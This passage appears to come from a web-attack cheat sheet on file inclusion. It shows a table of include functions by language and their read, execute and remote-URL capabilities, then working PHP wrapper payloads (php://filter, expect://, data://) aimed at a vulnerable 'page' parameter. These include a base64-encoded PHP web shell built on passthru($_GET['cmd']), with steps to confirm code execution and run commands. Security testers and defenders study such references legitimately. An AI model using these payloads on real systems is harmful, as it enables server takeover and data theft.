 |                        | res.render()                                                                                                               | ✅ Read Content, ✅ Execute, ❌ Remote URL                    |
| **Java**               |                                                                                                                            |                                                            |
|                        | include                                                                                                                    | ✅ Read Content, ❌ Execute, ❌ Remote URL                    |
|                        | import                                                                                                                     | ✅ Read Content, ✅ Execute, ✅ Remote URL                    |
| **.NET**               |                                                                                                                            |                                                            |
|                        | @Html.Partial()                                                                                                            | ✅ Read Content, ❌ Execute, ❌ Remote URL                    |
|                        | @Html.RemotePartial()                                                                                                      | ✅ Read Content, ❌ Execute, ✅ Remote URL                    |
|                        | Response.WriteFile()                                                                                                       | ✅ Read Content, ❌ Execute, ❌ Remote URL                    |
|                        | include                                                                                                                    | ✅ Read Content, ✅ Execute, ✅ Remote URL                    |


### Wrappers

#### Wrapper php://filter

```
http://example.com/index.php?page=php://filter/convert.base64-encode/resource=
```

#### Wrapper expect://

```
http://example.com/index.php?page=expect://id
```

#### Wrapper data://

```
echo '<?php phpinfo(); ?>' | base64 -w0 -> PD9waHAgcGhwaW5mbygpOyA/Pgo=

http://example.com/index.php?page=data://text/plain;base64,PD9waHAgcGhwaW5mbygpOyA/Pgo=

If code execution, you should see phpinfo(), go to the disable_functions and craft a payload with functions which aren't disable.

Code execution with
	- exec
	- shell_exec
	- system
	- passthru
	- popen

# Exemple
echo '<?php passthru($_GET["cmd"]);echo "Shell done !"; ?>' | base64 -w0 -> PD9waHAgcGFzc3RocnUoJF9HRVRbImNtZCJdKTtlY2hvICJTaGVsbCBkb25lICEiOyA/Pgo=

http://example.com/index.php?page=data://text/plain;base64,PD9waHAgcGFzc3RocnUoJF9HRVRbImNtZCJdKTtlY2hvICJTaGVsbCBkb25lICEiOyA/Pgo=

If there is "Shell done !" on the webpage, then there is code execution and you can do things like :

http://example.com/index.php?page=data://text/plain;base64,PD9waHAgcGFzc3RocnUoJF9HRVRbImNtZCJdKTtlY2hvICJTaGVsbCBkb25lICEiOyA/Pgo=&cmd=ls
```
